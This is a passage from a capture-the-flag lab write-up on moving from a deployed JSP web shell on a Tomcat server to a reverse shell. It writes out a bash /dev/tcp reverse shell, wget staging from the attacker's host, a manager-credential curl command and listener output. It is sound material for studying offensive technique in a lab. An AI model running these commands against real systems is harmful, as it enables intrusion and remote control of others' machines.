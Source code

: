 So, we can see the `cmd` application running! FYI - if we want to remove the WAR file there is another endpoint.

```none
curl --user 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/undeploy?path=/cmd
```

The last thing, executing the file! We can browse to the following URL, or `curl` it too.

```none
http://megahosting.htb:8080/cmd/cmdjsp.jsp
```

Success!

![Port 8080 Code Execution](screenshots/8080_code_execution.png)

At this point, we can intercept a request in Burp and try to get a proper reverse shell. I tried a couple of reverse shell payloads without any luck - tried the usual bash TCP and netcat payloads. I seem to remember having problems with special characters in this JSP webshell in the past. So, I tried to put the payload in a file and upload it to the file for execution.

Started by putting the reverse shell in a file on my machine.

```none
echo "bash -c 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1'" > rev.sh
```

Started a Python web server on my machine, and fetched the file on the target server using the JPS web shell. I did this in Burp, and make sure to URL encode the `cmd` parameter.

```none
wget http://10.10.14.2:8000/rev.sh -O /tmp/rev.sh
```

Then run the file using the same JSP shell.

```none
bash /tmp/rev/sh
```

An important part here is to make sure to URL encode every request you are sending in bash. I would love to dig a bit deeper and see what characters are causing the problems in the reverse shell - maybe a research project for another day.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.194] 54356
bash: cannot set terminal process group (950): Inappropriate ioctl for device
bash: no job control in this shell
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
```
